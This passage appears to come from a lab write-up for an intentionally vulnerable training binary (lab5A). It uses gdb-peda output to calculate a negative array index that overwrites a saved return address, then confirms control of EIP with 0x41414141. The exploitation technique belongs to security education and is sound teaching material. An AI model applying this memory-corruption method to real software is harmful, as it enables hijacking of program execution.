 ```nasm
0004| 0xbffff4e4 --> 0x80bfa48 ("store")
0008| 0xbffff4e8 --> 0x5
0012| 0xbffff4ec --> 0x0
0016| 0xbffff4f0 --> 0x0
0020| 0xbffff4f4 --> 0x0
0024| 0xbffff4f8 --> 0xbffff7bc --> 0x0
0028| 0xbffff4fc --> 0xbffff758 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08049129 in main ()
```

As we can see, the `data[]` array is located at `0xbffff508`. Now, let's do a quick subtraction to find the offset:
- `0xbffff4dc - 0xbffff508 = -0x2c` or **-44** in decimal

Given we are playing with 4 bytes values, we need to divide **-44** by 4. The offset is **-11**. To check if it's working, let's store **1094795585** (or `0x41414141`) at offset -11.

```nasm
$ gdb -q ./lab5A
Reading symbols from ./lab5A...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /levels/lab05/lab5A
----------------------------------------------------
  Welcome to doom's crappy number storage service!
          Version 2.0 - With more security!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   doom has reserved some storage for himself :>
----------------------------------------------------

Input command: store
 Number: 1094795585
 Index: -11

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xbffff508 --> 0x0
ECX: 0xfffffffe
EDX: 0xbffff4dc ("AAAA\b\365\377\277H\372\v\b\005")
ESI: 0x0
EDI: 0xbffff698 ("store")
EBP: 0xbffff6c8 --> 0x8049990 (<__libc_csu_fini>:  push   ebx)
ESP: 0xbffff4e0 --> 0xbffff508 --> 0x0
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10283 (CARRY parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff4e0 --> 0xbffff508 --> 0x0
0004| 0xbffff4e4 --> 0x80bfa48 ("store")
0008| 0xbffff4e8 --> 0x5
0012| 0xbffff4ec --> 0x0
0016| 0xbffff4f0 --> 0x0
0020| 0xbffff4f4 --> 0x0
0024| 0xbffff4f8 --> 0xbffff7bc --> 0x0
0028| 0xbffff4fc --> 0xbffff758 --> 0x0
```